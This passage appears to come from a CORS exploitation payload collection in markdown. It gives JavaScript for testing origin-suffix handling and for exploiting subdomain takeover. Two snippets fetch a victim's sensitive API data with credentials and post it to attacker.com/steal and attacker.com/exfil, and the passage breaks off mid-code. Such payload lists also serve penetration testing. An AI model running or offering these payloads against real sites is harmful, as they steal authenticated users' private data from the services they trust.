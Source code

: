 
## Suffix Matching Payloads

```javascript
// Test for domain suffix vulnerabilities
const suffixes = [
  'https://attacker.com.target.com',
  'https://attacker.target.com',
  'https://target-com.attacker.com'
];

suffixes.forEach(domain => {
  fetch('https://target.com/api/data', {
    headers: {
      'Origin': domain
    }
  })
  .then(response => {
    console.log(`Testing ${domain}:`, response.headers.get('Access-Control-Allow-Origin'));
  });
});
```

---

## Subdomain Takeover Payloads

```javascript
// If a subdomain is vulnerable to takeover
fetch('https://target.com/api/data', {
  headers: {
    'Origin': 'https://vulnerable-subdomain.target.com'
  },
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  // Send data to attacker server
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

---

## Advanced Exploitation Payloads

```javascript
// Full exploitation example
const exploit = () => {
  fetch('https://target.com/api/sensitive-data', {
    method: 'GET',
    headers: {
      'Origin': 'https://attacker.com'
    },
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    // Exfiltrate data
    fetch('https://attacker.com/exfil', {
      method: 'POST',
```